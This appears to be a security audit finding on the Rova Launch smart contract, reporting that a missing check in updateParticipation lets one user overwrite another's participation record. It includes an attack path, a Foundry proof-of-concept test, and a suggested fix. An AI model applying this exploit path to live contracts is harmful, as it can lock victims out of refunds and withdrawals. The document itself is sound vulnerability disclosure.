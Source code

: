 Mythical Seafoam Meerkat

Medium

# Regular user can overwrite participation info of another user

### Summary

Missing check in `updateParticipation` allows `launchGroupParticipations[newLaunchParticipationId]`  entry to be overwritten incorrectly, assuming `launchGroupParticipations[newLaunchParticipationId]` is empty record. This can happen due to the nature of Ethereum and the rule in the `Launch` contract that only the userAddress can be the msg.sender. This gives the user to decide when to send the transaction on chain.

### Root Cause

On [line](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L337C35-L337C42) there is no check if `ParticipationInfo.<userId/userAddress>` is empty. This means that due to clash in the way participationIds are created a user record can be overwritten.

### Internal Pre-conditions

Launch group should not finalize at participation

### Attack Path

1. Alice participates for 1000 launch tokens (system gives her participation id)
2. Alice sends transaction onchain `participate`
3. Alice decides to update its participation from 1000 tokens to 500 tokens (system gives her next participation id)
4. Bob also participates for 1000 launch tokens (system gives him the same participation id as from step 3.)
5. Bob sends transaction onchain `participate`
6. Alice sends transaction onchain `updateParticipation` (Launch contract overwrites Bob `ParticipationInfo`, effectively Bob loses his right to claimRefund and cancelParticipation)

### Impact

User launch participation will be overwritten and the user will not be able to withdraw its funds, nor claim a refund.


### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.22;

import {IAccessControl} from "@openzeppelin/contracts/access/IAccessControl.sol";
import {Test, console} from "forge-std/Test.sol";
import {LaunchTestBase} from "./LaunchTestBase.t.sol";
import {Launch} from "../src/Launch.sol";
import {LaunchGroupSettings, LaunchGroupStatus, ParticipationRequest, CancelParticipationRequest, ParticipationInfo, UpdateParticipationRequest} from "../src/Types.sol";

contract POC is Test, LaunchTestBase {
    LaunchGroupSettings public settings;
    ParticipationRequest[] public requests;

    bytes32[] public participationIds;
    address[] public users;

    function setUp() public {}

    function test_POC_updateParticipationCanTakeOverFunds() public {
        _setUpLaunch();

        settings = _setupLaunchGroup();

        // Setup multiple participations
        participationIds = new bytes32[](2);
        participationIds[0] = bytes32(uint256(1));
        participationIds[1] = bytes32(uint256(2));

        users = new address[](2);
        users[0] = user1;
        users[1] = user2;

        uint256 user1InitialBalance = currency.balanceOf(user1);
        uint256 user2InitialBalance = currency.balanceOf(user2);

        requests = _setupParticipations(participationIds, users);

        bytes32 user1Id = bytes32(uint256(1));
        bytes32 user2Id = bytes32(uint256(2));
        bytes32 user1ParticipationId = bytes32(uint256(1));
        bytes32 user2ParticipationId = bytes32(uint256(2));

        UpdateParticipationRequest
            memory updateRequest = UpdateParticipationRequest({
                chainId: block.chainid,
                launchId: testLaunchId,
                launchGroupId: testLaunchGroupId,
                prevLaunchParticipationId: user1ParticipationId,
                newLaunchParticipationId: user2ParticipationId,
                userId: user1Id,
                userAddress: user1,
                tokenAmount: launch.getUserTokensByLaunchGroup(
                    testLaunchGroupId,
                    user1Id
                ),
                currency: address(currency),
                requestExpiresAt: block.timestamp + 1 hours
            });

        bytes memory updateSignature = _signRequest(abi.encode(updateRequest));

        vm.prank(user1);
        launch.updateParticipation(updateRequest, updateSignature);

        CancelParticipationRequest
            memory cancelRequest = _createCancelParticipationRequest();

        cancelRequest.launchParticipationId = user2ParticipationId;
        cancelRequest.userId = user2Id;
        cancelRequest.userAddress = user2;

        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        vm.startPrank(user2);
        // here cancel participation reverts, because for launchParticipationId is owned by another user
        vm.expectRevert(
            abi.encodeWithSelector(
                Launch.UserIdMismatch.selector,
                user1Id,
                user2Id
            )
        );
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        cancelRequest.launchParticipationId = user2ParticipationId;
        cancelRequest.userId = user1Id;
        cancelRequest.userAddress = user1;

        cancelSignature = _signRequest(abi.encode(cancelRequest));

        vm.prank(user1);
        launch.cancelParticipation(cancelRequest, cancelSignature);
        assertEq(user1InitialBalance, currency.balanceOf(user1));

        assertEq(
            user2InitialBalance,
            currency.balanceOf(user2),
            "After cancelling participation user2 is not able to withdraw his funds"
        );
    }
}

```

### Mitigation

Replace this [snippet](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L337C35-L337C42)

with

```solidity
ParticipationInfo storage newInfo = launchGroupParticipations[
            request.newLaunchParticipationId
        ];

if (newInfo.userId != prevInfo.userId) {
revert UserIdMismatch(prevInfo.userId, newInfo.userId);
}

```
